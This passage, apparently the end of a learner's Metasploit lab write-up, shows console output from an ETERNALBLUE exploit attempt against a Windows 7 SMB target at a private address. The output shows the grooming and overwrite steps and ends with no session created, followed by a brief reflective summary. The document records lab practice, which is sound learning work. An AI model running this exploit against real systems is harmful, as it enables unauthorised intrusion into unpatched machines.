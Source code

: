 ```bash
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.35.94:445 - Connecting to target for exploitation.
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 22 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
```

## Part 5 : Summary
Metasploit frameworks is very large and I may need to practice this for quite a long time to get used to it.
